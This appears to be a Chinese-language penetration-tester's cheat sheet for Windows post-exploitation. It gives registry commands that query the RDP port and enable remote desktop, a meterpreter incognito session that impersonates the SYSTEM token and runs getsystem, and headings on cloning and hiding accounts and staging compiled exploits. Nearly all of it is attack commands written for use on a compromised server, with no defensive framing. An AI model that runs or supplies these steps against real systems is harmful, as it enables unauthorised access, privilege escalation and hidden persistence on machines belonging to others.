 ```bat
netstat -ano { |findstr LISTEN }

tasklist　{｜findstr 进程名 }

taskkill { /pid /im /f }

查询远程桌面端口号:
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber

开启远程桌面端口号(防火墙关闭):
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

查看当前在线用户(不要盲目登陆): quser/query user


```
#### 伪造token:
```
meterpreter > use incognito
Loading extension incognito...Success.

meterpreter > list_tokens -u

Delegation Tokens Available
========================================
kpSFBX173275\administrator
NT AUTHORITY\IUSR
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM

Impersonation Tokens Available
========================================
No tokens available

meterpreter >impersonate_token NT AUTHORITY\SYSTEM
meterpreter >getsystem
...
```

#### 服务器账户处理:

##### 1.克隆账户

##### 2.隐藏账户

##### 3.新建账户，提权

### 搜集exp，有一些需要编译的提前编译好

